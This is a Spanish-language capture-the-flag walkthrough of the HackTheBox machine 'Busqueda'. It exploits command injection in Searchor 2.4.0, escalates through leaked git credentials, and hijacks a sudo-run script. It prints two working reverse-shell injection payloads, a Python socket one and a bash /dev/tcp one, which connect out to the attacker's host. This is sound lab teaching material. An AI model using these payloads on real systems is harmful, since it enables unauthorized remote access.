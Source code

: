 ```yaml
---
title: Busqueda
date: '2023-08-12'
lastmod: '2023-08-05'
tags:
  ['labs', 'HackTheBox', 'Code Injection', 'Harcoded Credentials', 'RCE', 'Searchor 2.4.0', 'Flask']
draft: false
summary: 'Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo "Python". Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. Para escalar privilegios a "root", descubrimos credenciales dentro de un archivo de configuración "Git", lo que nos permite iniciar sesión en un servicio local "Gitea". Además, descubrimos que un usuario específico puede ejecutar un script de verificación del sistema con privilegios de "root". Al utilizar este script, enumeramos los contenedores "Docker" que revelan las credenciales de la cuenta "Gitea" del usuario "administrador". Un análisis más profundo del código fuente del script de verificación del sistema en un repositorio `Git` revela un medio para explotar una referencia de ruta relativa, otorgándonos ejecución remota de código (RCE) con privilegios de `root`. '
images: ['/static/images/htb/busqueda/busqueda.png']
---
```


![Portada](/static/images/htb/busqueda/busqueda.png)

<TOCInline toc={props.toc} exclude="Introduccion" />

## Reconocimiento

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.11.208 con el comando ping.

```js
  ping -c 4 10.10.11.208
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/busqueda/ping.png)

### Nmap

```js
  sudo nmap -sV -sS --min-rate 5000 10.10.11.208 -O
```

![Nmap](/static/images/htb/busqueda/nmap.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 8.9p1       |
| **_80/tcp_**     | http     | Apache httpd 2.4.52 |

## Enumeracion

### Puerto 80

Nos dirigimos a la web page y nos topamos con Searcher.
![web](/static/images/htb/busqueda/web1.png)
Bajamos y nos encontramos con un formulario e informacion acerca de la aplicacion. Vemos que
esta utilisando [Flask](https://flask.palletsprojects.com/en/2.3.x/) y [Searchor 2.4.0](https://pypi.org/project/searchor/)
![web](/static/images/htb/busqueda/web2.png)

Realizando una busqueda en Google sobre Searchor version 2.4.0 nos encontramos con que es vulnerable a [ejecucion de codigo](https://security.snyk.io/package/pip/searchor/2.4.0).
Encontramos dos repositorios de PoC en los cuales apoyarnos para realizar la explotacion.
Vamos a hacer la demostracion de dos maneras distinas pero que nos van a conducir al mismo resultado.

### Manera 1

Abrimos Burpsuite y activamos Foxyproxy para capturar todas las solicitudes que realizemos.
Ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/web4.png)

Damos click en el boton Search.
![web](/static/images/htb/busqueda/web3.png)

En Burpsuite, capturamos la peticion y la mandamos al repeater.
![web](/static/images/htb/busqueda/web5.png)

Una vez alli, en el campo query, colocamos la siguiente linea de codigo:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('TU_IP',PUERTO));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Esta línea de código es un ejemplo de un shell reverso en Python, que se utiliza comúnmente en pruebas de penetración y actividades maliciosas para obtener acceso remoto a un sistema. Vamos a desglosar lo que hace:

`import socket,subprocess,os`: Importa los módulos necesarios. _socket_ para la comunicación de red, _subprocess_ para ejecutar comandos y _os_ para interactuar con el sistema operativo.

`s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`: Crea un nuevo objeto de socket para la comunicación _TCP/IP_.

`s.connect(('TU_IP',PUERTO))`: Intenta conectar el socket al IP y puerto especificados. Nota: '_TU_IP_' y '_PUERTO_' son marcadores de posición y deben ser reemplazados por una dirección IP y un puerto válidos respectivamente.

`os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);`: Estas tres líneas redirigen la entrada estándar (0), la salida estándar (1) y la salida de error estándar (2) del proceso al socket. Esto significa que cualquier entrada o salida del proceso se enviará a través del socket, permitiendo la interacción remota.

`p=subprocess.call(['/bin/sh','-i'])`: Ejecuta una shell (_/bin/sh_) con una opción _-i_ que indica que se debe ejecutar en modo interactivo. Esto permite que el atacante ejecute comandos en el sistema comprometido.

Damos click derecho sobre la linea de codigo y la URLencodeamos. Hacemos los cambios pertinentes, colocando nuestra IP y el puerto que tengamos levantado en escucha. Enviamos y recibiremos una shell en donde teniamos nuestro netcat en escucha.
![web](/static/images/htb/busqueda/web6.png)

### Manera 2

De la manera 2 tambien ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/altweb.png)
Pero en este caso, no interceptamos la solicitud, directamente
colocamos la reverse shell en el campo del formulario y la enviamos.

```python
'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```

Esta línea de código es otra variante de un shell reverso, pero esta vez utilizando una combinación de Python y Bash para obtener acceso remoto a un sistema. Desglosemos lo que hace:

`__import__('os')`: Esta es una forma alternativa en Python para importar un módulo, en este caso, el módulo os.

`.system(...)`: Es una función del módulo os que se utiliza para ejecutar comandos del sistema operativo desde un script de Python.

`'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"'`: Este es el comando que se ejecuta. Desglosemos este comando Bash:

`bash -c`: Ejecuta el comando Bash especificado en la cadena que sigue.

`bash -i`: Inicia una nueva instancia de Bash en modo interactivo.

`& /dev/tcp/10.0.0.1/4444`: Redirige la salida estándar de la shell al socket TCP en la dirección IP 10.0.0.1 y el puerto 4444. Bash tiene una característica poco conocida que permite crear conexiones de red utilizando /dev/tcp/HOST/PORT.

`0>&1`: Redirige la entrada estándar (0) al mismo lugar que la salida estándar (1), lo que significa que la entrada y la salida de la shell se enviarán a través de la conexión TCP.

![web](/static/images/htb/busqueda/altweb2.png)

Y recibimos la shell.
![web](/static/images/htb/busqueda/altweb3.png)

## Escalada de privilegios

Ya dentro, vemos que somos el usuario svc. Donde estamos hay un directorio .git.
![web](/static/images/htb/busqueda/web7.png)

En el archivo config vemos unas credenciales, volvemos al puerto 22 para probar.
![web](/static/images/htb/busqueda/web8.png)

Efectivamente, las credenciales son validas.
![web](/static/images/htb/busqueda/ssh.png)

Ejecutamos el comando `sudo -l`. El comando sudo -l se utiliza en sistemas basados en Unix y Linux para mostrar los privilegios de ejecución específicos que tiene un usuario en relación con los comandos que pueden ejecutar utilizando el comando sudo.

El comando sudo permite a los usuarios ejecutar comandos con los privilegios de superusuario (también conocido como "root"), lo que les brinda acceso a operaciones y configuraciones que normalmente requerirían permisos administrativos. Sin embargo, no todos los usuarios pueden ejecutar cualquier comando con sudo. El archivo de configuración sudoers determina qué comandos y acciones pueden ejecutar los usuarios mediante sudo.

Al usar sudo -l, un usuario puede verificar los comandos y las operaciones específicas que se les permite ejecutar con sudo. Esto es útil para comprender rápidamente el alcance de los privilegios que un usuario tiene sin necesidad de intentar ejecutar comandos y recibir mensajes de error si no se les permite.
![web](/static/images/htb/busqueda/ssh1.png)

Podemos ejecutar comandos como el usuario con altos privilegios. Vemos que podemos ejecutar el script full-checkup.
Lo que debemos de hacer es crear un archivo con el mismo nombre y mandar una shell con privilegios de root a nuestra maquina atacante
![web](/static/images/htb/busqueda/ssh2.png)

En nuestra maquina escribimos un [script de python](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) que nos dara una reverse shell.
![web](/static/images/htb/busqueda/ssh3.png)

Luego, levantamos un servidor con python para poder transferirlo a la maquina victima.
![web](/static/images/htb/busqueda/ssh4.png)

Antes de volver a la maquina victima, abrimos con nc el puerto que pusimos en el script de python para que
este en escucha. Le damos permisos de ejecucion y lo ejecutamos.
![web](/static/images/htb/busqueda/ssh5.png)

En nuestra maquina atacante recibimos una shell con maximos privilegios. Consiguiendo asi la flag root.txt .
![web](/static/images/htb/busqueda/ssh7.png)

`URLs de utilidad:`

- [Python eval code execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/)

- [Python privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)
